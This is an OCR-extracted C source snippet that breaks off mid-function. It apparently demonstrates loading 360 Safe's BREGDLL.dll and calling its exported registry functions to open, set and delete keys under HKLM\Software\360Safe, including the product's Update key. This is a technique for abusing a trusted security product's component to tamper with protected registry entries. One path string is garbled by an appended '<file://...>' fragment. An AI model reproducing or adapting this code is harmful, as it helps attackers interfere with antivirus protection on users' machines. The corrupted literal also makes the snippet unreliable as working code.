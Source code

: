```
REG_SET_VALUE_EX BRegSetValueEx = NULL;

#define AppPath   "Software\\Microsoft\\Windows\\CurrentVersion\\App Paths\\360safe.exe"

#define TestDeleteKey  HKEY_LOCAL_MACHINE
#define TestDeleteRegPath "Software\\360Safe\\Update"

#define TestSetKey  HKEY_LOCAL_MACHINE
#define TestSetPath  "Software\\360Safe"

BOOL InitBRegDll()
{
 LONG lResult;
 HKEY hKey;

 CHAR cPath[MAX_PATH + 32] = { 0 };
 DWORD dwPathLen = MAX_PATH;

 lResult = RegOpenKeyA(HKEY_LOCAL_MACHINE, AppPath, &hKey);
 if (FAILED(lResult))
  return FALSE;

 DWORD dwType = REG_SZ;
 lResult = RegQueryValueExA(hKey, "Path", NULL, &dwType, (LPBYTE)cPath, &dwPathLen);
 RegCloseKey(hKey);
 if (FAILED(lResult))
  return FALSE;

 strcat(cPath, "\\deepscan\\BREGDLL.dll<file://\\deepscan\\BREGDLL.dll>");

 HMODULE modBReg = LoadLibraryA(cPath);
 if (!modBReg)
  return FALSE;

 INIT_REG_ENGINE InitRegEngine = (INIT_REG_ENGINE)GetProcAddress(modBReg, "InitRegEngine");
 BRegDeleteKey = (BREG_DELETE_KEY)GetProcAddress(modBReg, "BRegDeleteKey");
 BRegOpenKey = (BREG_OPEN_KEY)GetProcAddress(modBReg, "BRegOpenKey");
 BRegCloseKey = (BREG_CLOSE_KEY)GetProcAddress(modBReg, "BRegCloseKey");
 BRegSetValueEx = (REG_SET_VALUE_EX)GetProcAddress(modBReg, "BRegSetValueEx");

 if (!InitRegEngine || !BRegDeleteKey || !BRegOpenKey || !BRegCloseKey || !BRegSetValueEx) {
  FreeLibrary(modBReg);
  return FALSE;
 }

 if (!InitRegEngine()) {
  FreeLibrary(modBReg);
  return FALSE;
 }

 return TRUE;
}

LONG TestSetRegKey()
{
 HKEY hKey;
 LONG lResult;

 lResult = BRegOpenKey(TestSetKey, TestSetPath, &hKey);
 if (FAILED(lResult))
  return lResult;

 DWORD dwType = REG_SZ;
```